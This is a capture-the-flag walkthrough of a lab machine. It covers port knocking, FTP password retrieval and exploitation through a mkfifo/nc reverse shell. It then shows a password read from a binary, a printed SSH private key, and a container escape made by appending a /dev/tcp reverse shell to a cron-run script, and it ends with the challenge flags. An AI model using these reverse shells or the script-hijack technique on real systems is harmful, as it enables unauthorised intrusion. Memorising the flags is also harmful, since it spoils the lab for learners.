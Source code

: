 ```yaml
---
sticker: emoji//1f63a
---
```


# PORT SCAN
---


| PORT | SERVICE     |
| :--- | :---------- |
| 21   | FTP         |
| 22   | SSH         |
| 4420 | NVM-EXPRESS |
| 8080 | HTTP        |




# RECONNAISSANCE
---

If we try interacting with the `4420` port, we need a password, for it, we can go to `ftp` and check this, on there, we will get:

```
sardinethecat
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250612135655.png)
But, before all of this, we need to go to the website in which we will find this:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250612142859.png)

The FTP port will appear as filter if we don't do `port knocking`, Port knocking is a security technique that involves a client making a series of connection attempts to specific closed ports on a server before a legitimate connection can be established, we need to do port knocking on the specified ports:

```
knock IP 1111, 2222, 3333, 4444
```

Once we knock, the ftp port will be open and we can access to get the password.

Let's begin exploitation.

# EXPLOITATION
---

We got `rce`, let's send ourselves a reverse shell:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP 4444 >/tmp/f
```


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250612135810.png)



We have a `runme` binary on `/home/catlover`:

```
# ls -la /home
total 12
drwxr-xr-x  3    0    0 4096 Apr  2  2021 .
drwxr-xr-x 10 1001 1001 4096 Apr  3  2021 ..
drwxr-xr-x  2    0    0 4096 Apr  3  2021 catlover
# ls -la /home/catlover
total 28
drwxr-xr-x 2 0 0  4096 Apr  3  2021 .
drwxr-xr-x 3 0 0  4096 Apr  2  2021 ..
-rwxr-xr-x 1 0 0 18856 Apr  3  2021 runme
# ./home/catlover/runme
Please enter yout password: sardinethecat
Access Denied
```

It prompts for a password, which we don't have, we cannot get the binary on our home due to the shell being a little rusty, but, when we use cat we can see this little line: 


```
rebeccaPlease enter yout password: Welcome, catlover! SSH key transfer queued! touch /tmp/gibmethesshkeyAccess Deniedd
```

The password is:

```
rebecca
```

This binary generates a `id_rsa` for `catlover`  once the password is correct, we know this by analyzing the binary using `cat`:

```
cat /home/catlover/id_rsa

-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAmI1dCzfMF4y+TG3QcyaN3B7pLVMzPqQ1fSQ2J9jKzYxWArW5
IWnCNvY8gOZdOSWgDODCj8mOssL7SIIgkOuD1OzM0cMBSCCwYlaN9F8zmz6UJX+k
jSmQqh7eqtXuAvOkadRoFlyog2kZ1Gb72zebR75UCBzCKv1zODRx2zLgFyGu0k2u
xCa4zmBdm80X0gKbk5MTgM4/l8U3DFZgSg45v+2uM3aoqbhSNu/nXRNFyR/Wb10H
tzeTEJeqIrjbAwcOZzPhISo6fuUVNH0pLQOf/9B1ojI3/jhJ+zE6MB0m77iE07cr
lT5PuxlcjbItlEF9tjqudycnFRlGAKG6uU8/8wIDAQABAoIBAH1NyDo5p6tEUN8o
aErdRTKkNTWknHf8m27h+pW6TcKOXeu15o3ad8t7cHEUR0h0bkWFrGo8zbhpzcte
D2/Z85xGsWouufPL3fW4ULuEIziGK1utv7SvioMh/hXmyKymActny+NqUoQ2JSBB
QuhqgWJppE5RiO+U5ToqYccBv+1e2bO9P+agWe+3hpjWtiAUHEdorlJK9D+zpw8s
/+9CjpDzjXA45X2ikZ1AhWNLhPBnH3CpIgug8WIxY9fMbmU8BInA8M4LUvQq5A63
zvWWtuh5bTkj622QQc0Eq1bJ0bfUkQRD33sqRVUUBE9r+YvKxHAOrhkZHsvwWhK/
oylx3WECgYEAyFR+lUqnQs9BwrpS/A0SjbTToOPiCICzdjW9XPOxKy/+8Pvn7gLv
00j5NVv6c0zmHJRCG+wELOVSfRYv7z88V+mJ302Bhf6uuPd9Xu96d8Kr3+iMGoqp
tK7/3m4FjoiNCpZbQw9VHcZvkq1ET6qdzU+1I894YLVu258KeCVUqIMCgYEAwvHy
QTo6VdMOdoINzdcCCcrFCDcswYXxQ5SpI4qMpHniizoa3oQRHO5miPlAKNytw5PQ
zSKoIW47AObP2twzVAH7d+PWRzqAGZXW8gsF6Ls48LxSJGzz8V191PjbcGQO7Oro
Em8pQ+qCISxv3A8fKvG5E9xOspD0/3lsM/zGD9ECgYBOTgDAuFKS4dKRnCUt0qpK
68DBJfJHYo9DiJQBTlwVRoh/h+fLeChoTSDkQ5StFwTnbOg+Y83qAqVwsYiBGxWq
Q2YZ/ADB8KA5OrwtrKwRPe3S8uI4ybS2JKVtO1I+uY9v8P+xQcACiHs6OTH3dfiC
tUJXwhQKsUCo5gzAk874owKBgC/xvTjZjztIWwg+WBLFzFSIMAkjOLinrnyGdUqu
aoSRDWxcb/tF08efwkvxsRvbmki9c97fpSYDrDM+kOQsv9rrWeNUf4CpHJQuS9zf
ZSal1Q0v46vdt+kmqynTwnRTx2/xHf5apHV1mWd7PE+M0IeJR5Fg32H/UKH8ROZM
RpHhAoGAehljGmhge+i0EPtcok8zJe+qpcV2SkLRi7kJZ2LaR97QAmCCsH5SndzR
tDjVbkh5BX0cYtxDnfAF3ErDU15jP8+27pEO5xQNYExxf1y7kxB6Mh9JYJlq0aDt
O4fvFElowV6MXVEMY/04fdnSWavh0D+IkyGRcY5myFHyhWvmFcQ=
-----END RSA PRIVATE KEY-----
```

We got our private key and can now connect to ssh:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250612141930.png)
# PRIVILEGE ESCALATION
---

We are root but the root flag is nowhere to be found, this is because we are inside of a `Docker container`, we can know this with linpeas and `ls -la /`:

```
root@7546fa2336d6:/opt/clean# ls -la /
total 112
drwxr-xr-x   1 root root 4096 Jun 12 19:22 .
drwxr-xr-x   1 root root 4096 Jun 12 19:22 ..
-rw-------   1 root root  596 Jun 12 19:18 .bash_history
-rwxr-xr-x   1 root root    0 Mar 25  2021 .dockerenv
drwxr-xr-x   1 root root 4096 Apr  9  2021 bin
drwxr-xr-x   3 root root 4096 Mar 24  2021 bitnami
drwxr-xr-x   2 root root 4096 Jan 30  2021 boot
-rw-r--r--   1 root root   62 Jun 12 19:22 clean.sh
drwxr-xr-x   5 root root  340 Jun 12 19:09 dev
drwxr-xr-x   1 root root 4096 Apr  9  2021 etc
drwxr-xr-x   2 root root 4096 Jan 30  2021 home
drwxr-xr-x   1 root root 4096 Sep 25  2017 lib
drwxr-xr-x   2 root root 4096 Feb 18  2021 lib64
drwxr-xr-x   2 root root 4096 Feb 18  2021 media
drwxr-xr-x   2 root root 4096 Feb 18  2021 mnt
drwxrwxr-x   1 root root 4096 Mar 25  2021 opt
drwxrwxr-x   2 root root 4096 Mar 24  2021 post-init.d
-rwxrwxr-x   1 root root  796 Mar 24  2021 post-init.sh
dr-xr-xr-x 131 root root    0 Jun 12 19:09 proc
drwx------   1 root root 4096 Mar 25  2021 root
drwxr-xr-x   4 root root 4096 Feb 18  2021 run
drwxr-xr-x   1 root root 4096 Apr  9  2021 sbin
drwxr-xr-x   2 root root 4096 Feb 18  2021 srv
dr-xr-xr-x  13 root root    0 Jun 12 19:23 sys
drwxrwxrwt   1 root root 4096 Jun 12 19:27 tmp
drwxrwxr-x   1 root root 4096 Mar 24  2021 usr
drwxr-xr-x   1 root root 4096 Feb 18  2021 var
```

As seen, `.dockerenv` is on here, we need a way to get into root
If we check the `/opt` directory we can find a `clean.sh` script that does this:

```
root@7546fa2336d6:/# cat /opt/clean/clean.sh
#!/bin/bash

rm -rf /tmp/*
```

We have write permissions so we can simply modify it to a reverse shell:

```
echo "/bin/bash -c '/bin/bash -i >& /dev/tcp/IP/1111 0>&1'" >> /opt/clean/clean.sh
```

This script runs each a couple minutes so wait and have the listener ready, we know this by taking a look at the `.bash_history` file:

```
root@7546fa2336d6:/opt/clean# cat /.bash_history
exit
exit
exit
exit
exit
exit
exit
ip a
ifconfig
apt install ifconfig
ip
exit
nano /opt/clean/clean.sh
ping 192.168.4.20
apt install ping
apt update
apt install ping
apt install iptuils-ping
apt install iputils-ping
exit
ls
cat /opt/clean/clean.sh
nano /opt/clean/clean.sh
clear
cat /etc/crontab
ls -alt /
cat /post-init.sh
cat /opt/clean/clean.sh
bash -i >&/dev/tcp/192.168.4.20/4444 <&1
nano /opt/clean/clean.sh
nano /opt/clean/clean.sh
nano /opt/clean/clean.sh
nano /opt/clean/clean.sh
cat /var/log/dpkg.log
nano /opt/clean/clean.sh
nano /opt/clean/clean.sh
exit
exit
exit
ls
exit
```


Once the script runs again, we get a shell as root but in the real machine:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250612143517.png)

We can now get both flags:

```
root@7546fa2336d6:/opt/clean# cat /root/flag.txt
7cf90a0e7c5d25f1a827d3efe6fe4d0edd63cca9

root@cat-pictures:~# cat /root/root.txt
Congrats!!!
Here is your flag:

4a98e43d78bab283938a06f38d2ca3a3c53f0476
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250612143705.png)

